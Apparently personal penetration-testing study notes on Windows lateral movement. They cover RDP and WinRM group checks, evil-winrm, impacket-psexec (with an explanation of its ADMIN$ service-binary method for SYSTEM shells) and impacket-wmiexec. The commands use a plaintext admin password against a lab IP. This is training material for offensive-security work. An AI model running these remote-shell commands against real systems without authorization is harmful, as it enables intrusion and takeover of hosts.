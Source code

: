 - in Remote Desktop Users groups
`net localgroup "Remote desktop users"`
- low, redraccoon, (Administrator of course)


#### WinRM
- Windows Remote Management
- evil-winrm is the best tool to get shell like ssh in linux 
  - in practice, used much because admin, developer, solution and script use a lot, attacker use a lot too
```
evil-winrm -i 172.31.167.162 -u Administrator -p 'Password123!'
```
`net localgroup "Remote Management users"`


#### SMB
in SMB, can get shell, not in shares
but you need to refer to guide book - how to get shell technically in SMB
  - not always,
  - with psexec tool

- similar way : impacket 
  - python based windows tool and libraries 
```
- insatllation
sudo apt update -y
sudo apt install impacket-scripts 


- get shell with impacket-psexec script  
impacket-psexec Administrator:'Password123!'@172.31.167.162

in AD,
impacket-psexec Domain\\Administrator:'Password123!'@172.31.167.162
```
1. upload service binary to ADMIN$ share(c:\windows\system32)
2. if SMB is opened, can use RPC(Remote Procedure Calls) to do network request  
  - request by using SVCManager (request: Create Service on the target 
  host)
    - service name: random
3. Start service, service binary we put starts
4. get shell (authority\system priv got)

- using PSEXEC needs local administrator to upload on ADMIN$ share and create service, etc.

5. auto remove uploaded binary and service when exist


#### WMI
```
nmap -p 135 -Pn -n --open 172.31.167.162
```
- shown name : msrpc

- impacket-wmiexec
```
impacket-wmiexec Administrator:'Password123!'@172.31.167.162
```
get shell as Local admin 


- if you get creds as low or high, in ways of hash racking, etc.
, chekc if those ports are opened and access  